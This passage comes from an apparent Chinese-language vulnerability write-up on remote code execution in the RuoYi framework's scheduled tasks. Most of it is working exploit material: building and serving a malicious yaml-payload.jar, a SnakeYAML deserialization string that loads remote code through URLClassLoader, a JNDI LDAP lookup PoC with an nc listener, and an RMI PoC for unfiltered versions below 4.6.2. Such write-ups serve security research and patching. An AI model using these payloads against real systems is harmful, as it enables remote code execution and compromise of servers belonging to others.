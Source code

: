 ```shell
javac src/artsploit/AwesomeScriptEngineFactory.java　　　 // 编译java文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　// 打包成jar包
```

3. 在yaml-payload.jar根目录下起一个web服务

```shell
python -m http.server 9999
```

4. 在计划任务添加payload，执行

```shell
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]]]]')
```

![4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/9.webp)

### JNDI注入

使用yakit起一个返连服务

![4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/10.webp)

poc：

```shell
javax.naming.InitialContext.lookup('ldap://127.0.0.1:8085/calc')
```


nc监听端口

![4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/11.webp)

![4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/12.webp)


## < 4.6.2

### rmi

上边的分析是拿4.6.2版本分析的，在创建定时任务时会判断目标字符串中有没有rmi关键字。后边有拐回来看一下，发现在4.6.2版本以下，在创建定时任务时是没有任何过滤的。

![< 4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/13.webp)

所以在补充一个rmi的poc：

```shell
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')
```

![< 4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/14.webp)

![< 4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/15.webp)
